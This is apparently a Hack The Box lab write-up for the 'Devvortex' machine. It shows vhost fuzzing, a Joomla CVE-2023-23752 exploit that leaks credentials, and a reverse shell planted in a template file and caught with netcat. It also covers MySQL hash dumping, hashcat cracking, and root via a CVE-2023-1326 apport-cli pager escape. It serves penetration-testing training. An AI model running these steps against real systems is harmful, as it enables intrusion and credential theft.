

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Devvortex

## Summary

[Devvortex](https://app.hackthebox.com/machines/577), an <mark style="color:green;">easy-rated</mark> machine, presents an array of challenges involving fuzzing, CMS[^1] attacks, and exploiting known vulnerabilities. Establishing a foothold demands initial reconnaissance and **fuzzing** **of virtual hosts** to identify the CMS platform in use. Once identified, **enumerating CMS** versions unveils potential **exploits**, facilitating the acquisition of credentials. With obtained privileges, advancing to [**RCE**](#user-content-fn-2)[^2] becomes feasible. Exploring local services and accessing a [**DBMS**](#user-content-fn-3)[^3] allows lateral movement, ultimately compromising the machine leveraging **user permissions**.

<table><thead><tr><th width="86" align="right">Step</th><th>Action</th><th>Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Domain fuzzing</td><td><a href="../../tools/web/dirbusting/fuff.md">ffuf</a></td><td><a data-footnote-ref href="#user-content-fn-4">Vhost</a></td></tr><tr><td align="right">2</td><td>Vhost fuzzing</td><td><a href="../../tools/web/dirbusting/fuff.md">ffuf</a></td><td><a data-footnote-ref href="#user-content-fn-1">CMS</a></td></tr><tr><td align="right">3</td><td>CMS enumeration</td><td><a data-footnote-ref href="#user-content-fn-5">LotL</a></td><td>CMS version</td></tr><tr><td align="right">4</td><td>Researching</td><td><a href="../../tools/searchsploit.md">searchsploit</a></td><td>Credentials</td></tr><tr><td align="right">5</td><td>CMS exploitation</td><td>LotL</td><td>Foothold</td></tr><tr><td align="right">6</td><td>DBMS enumeration</td><td><a href="../../services/tcp/dbms/sql/mysql-3306.md">mysql</a>, <a href="../../tools/passwords/hashcat.md">hashcat</a></td><td>Lateral movement</td></tr><tr><td align="right">7</td><td>Host enumeration</td><td>LotL, <a data-footnote-ref href="#user-content-fn-6">PoC</a></td><td>Privilege Escalation</td></tr></tbody></table>

## Recon

### Port Scanning

Let's start by checking what services are listening on Devvortex.


You can find `nmap-scan.sh` [here](../../tools/port-scanners/nmap.md#nmap-scan).


```bash
# Executing nmap-scan
$ nmap-scan.sh 10.10.11.242
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap

# Checking the results
$ cat scans/aggressive_scan.nmap

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
```

Not many services open, just SSH and an HTTP nginx web server which redirects us to `devvortex.htb`. Let's add this domain to our `/etc/hosts` file and move onto enumerating the web server.

```bash
$ grep dev /etc/hosts
10.10.11.242 devvortex.htb
```

### Fuzzing

We will start by enumerating the technologies used, as it can provide us with useful information for our subsequent fuzzing scans, such as the programming language used.


```bash
$ whatweb devvortex.htb
http://devvortex.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@DevVortex.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.242], JQuery[3.4.1], Script[text/javascript], Title[DevVortex], X-UA-Compatible[IE=edge], nginx[1.18.0]
```


Next, we will start our scans and explore the domain via our browser until they complete (Figure 1).

<figure><figcaption><p>Figure 1: Browsing through <code>devvortex.htb</code> web site.</p></figcaption></figure>

The site seems completely static so there is not much to explore there. Let's check what came back from our scans: no subdomains, default directories, and, the only interesting result, the `dev` virtual host (Figure 2).


```bash
# Scanning for subdirectories
ffuf -u http://devvortex.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -ac -ic
# Scanning for subdomains
ffuf -u http://FUZZ.devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac -c -ic
# Scanning for virtual hosts
ffuf -u http://devvortex.htb -H "HOST: FUZZ.devvortex.htb" -ac -c -ic -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```


<figure><figcaption><p>Figure 2: Fuzzing for directories and virtual hosts with <code>ffuf</code>.</p></figcaption></figure>

Let's add `dev.devvortex.htb` to our local DNS file, and run a directory scan on it while we manually pay it a visit.


```bash
# Adding the virtual host to our local DNS file
$ grep dev /etc/hosts
10.10.11.242 devvortex.htb dev.devvortex.htb
# Directory-busting the virtual host
ffuf -u http://dev.devvortex.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -ac -ic
```


## Foothold

### More Fuzzing

This seems another static website (Figure 3). Luckily, this time our directory scan returns many more results than before (Figure 4).&#x20;

<figure><figcaption><p>Figure 3: Exploring the <code>dev.devvortex.htb</code> website.</p></figcaption></figure>

<figure><figcaption><p>Figure 4: Dirbusting the subdomain.</p></figcaption></figure>

### Attacking Joomla

The `/administrator` directory is a Joomla login page (Figure 4). By putting on use our [Joomla's enumeration and attacks notes](../../tools/web/cms/joomla.md), we can find the CMS[^1]'s version.

```bash
# Enumerating Joomla's version
$ curl -s http://dev.devvortex.htb/README.txt | head -n 5
Joomla! CMS™

1- Overview
        * This is a Joomla! 4.x installation/upgrade package.
        * Joomla! Official site: https://www.joomla.org
# Enumerating Joomla's exact version   
$ curl -s http://dev.devvortex.htb/administrator/manifests/files/joomla.xml | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>
<extension type="file" method="upgrade">
  <name>files_joomla</name>
  <author>Joomla! Project</author>
  <authorEmail>admin@joomla.org</authorEmail>
  <authorUrl>www.joomla.org</authorUrl>
  <copyright>(C) 2019 Open Source Matters, Inc.</copyright>
  <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
  <version>4.2.6</version>
```

Now that we know the exact version, we can use [`searchsploit`](../../tools/searchsploit.md) to see if there is any known vulnerability, and if there is one, directly download the PoC[^6] and use it. In this case, we can exploit [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752) for accessing webservice endpoints without the need to authenticate (Figure 5).


For the below exploit to work, `ruby` needs to be [installed](https://www.ruby-lang.org/en/documentation/installation/#apt) in the system along with the required gems: `sudo gem install httpx json docopt paint`.


```bash
# Searching for known vulnerabilities
searchsploit joomla 4.2. --id
# Downloading the PoC
searchsploit 51334 -m
# Executing the exploit
./51334.py http://dev.devvortex.htb
```

<figure><figcaption><p>Figure 5: Searching for public vulnerabilities and obtaining database credentials.</p></figcaption></figure>

### RCE[^2]

Now we are able to login as privileged users into Joomla (`lewis:P4ntherg0t1n5r3c0n##`), we can follow the same process as for [getting a web shell](../../tools/web/cms/joomla.md#code_execution), but for getting a reverse shell instead. We will start by generating the reverse shell code from [revshells](https://www.revshells.com/) (Figure 6).

<figure><figcaption><p>Figure 6: Generating reverse shell code via revshells.</p></figcaption></figure>

Next, we can choose a template, in this case `cassiopeia` (Figure 7.1 & 7.2), and modify a template's not-so-used page, such as `error.php` (Figure 7.3), by replacing the code with our reverse shell code (Figure 7.4).

<figure><figcaption><p>Figure 7: The Joomla RCE process.</p></figcaption></figure>

Finally, we need to start a listener on our attack host (Figure 8.5), call the modified page (Figure 8.6), and catch the reverse shell (Figure 8.7).

```bash
# Starting a listener
nc -lvnp 1337
# Calling the modified file
curl http://dev.devvortex.htb/templates/cassiopeia/error.php
```

<figure><figcaption><p>Figure 8: Catching the reverse shell.</p></figcaption></figure>

## Privilege Escalation

### Lateral Movement

After [upgrading our shell](broken-reference), we see that the `user.txt` flag is located under `logan`'s directory.

```bash
# Upgrading the shell
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ ^Z
[1]+  Stopped                 nc -lvnp 1337

┌──(x7331㉿CSpanias)-[~]
└─$ echo $TERM && stty size
xterm-256color
54 209

┌──(x7331㉿CSpanias)-[~]
└─$ stty raw -echo;fg
nc -lvnp 1337

<vvortex.htb/templates/cassiopeia$ stty rows 54 cols 209
<iopeia$ export TERM=xterm

# Searching for the user flag
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ ls -l /home/logan
total 4
-rw-r----- 1 root logan 33 Apr 30 05:02 user.txt
```

The credentials we used to log into Joomla, were actually database credentials (Figure 5), so let's see if a DBMS[^3] exists on the machine.


```bash
# Enumerating local services (numeric format)
www-data@devvortex:/$ netstat -ltn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
# Enumerating local services (string format)
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ netstat -lt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN
tcp6       0      0 [::]:http               [::]:*                  LISTEN
```


There is indeed a MySQL service listening on port `3306`, so let's connect and enumerate it.


```bash
# Connecting to the MySQL DMBS
www-data@devvortex:/$ mysql -u lewis -pP4ntherg0t1n5r3c0n## -h localhost
<SNIP>
# Listing databases
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)
# Selecting the joomla database
mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
# Listing the database's tables
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
<SNIP>
| sd4fg_users                   |
<SNIP>
+-------------------------------+
71 rows in set (0.00 sec)
# Dumping data
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```


### Cracking Hashes

From the database dump, we get `logan`'s hash, so we will pass it locally to [`hashcat`](../../tools/passwords/hashcat.md) and hope for the best.

```bash
# Writing logan's hash to a file
echo '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' > logan_hash
# Identifying the hash type
hashcat logan_hash
# Attacking the hash
hashcat -m3200 logan_hash /usr/share/wordlists/rockyou
# Printing the results
$ hashcat -m3200 logan_hash /usr/share/wordlists/rockyou --show
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

Now, we can switch user (`su`) to `logan` and read the user flag 🚩.

```bash
www-data@devvortex:/$ su logan
Password:
logan@devvortex:/$ cat ~/user.txt
b7b<REDACTED>4cc
```

### EoP[^7]

Checking if `logan` has any elevated privileges, we notice that it can run `apport-cli` as `sudo`.


```bash
logan@devvortex:/$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```


[GTFOBins](https://gtfobins.github.io/) does not have anything related to that, but we are able to find something on [GitHub](https://github.com/diego-tella/CVE-2023-1326-PoC) which is related to [CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326). Since this exploit needs a report file to be present, we will need first to create one (Figure 9.1). Then we can use it to elevate our privileges (Figure 9.2) by spawing a bash shell from within the pager (Figure 10) and read the root flag 🚩 (Figure 9.3).

```bash
# Creating a report file
sudo /usr/bin/apport-cli /usr/bin/less
# Using the report to elevate privileges
sudo /usr/bin/apport-cli -c /tmp/apport.less.bdgeopne.apport
# Spawing a bash shell via the pager
!/bin/bash
# Reading the root flag
cat /root/root.txt
```

<figure><figcaption><p>Figure 9: Exploiting <code>apport-cli</code> and reading the root flag.</p></figcaption></figure>

<figure><figcaption><p>Figure 10: Spawing a bash shell from within the pager.</p></figcaption></figure>

[^1]: Content Management System

[^2]: Remote Code Execution

[^3]: Database Management System

[^4]: Virtual Host

[^5]: Living off the Land

[^6]: Proof of Concept

[^7]: Elevation of Privileges
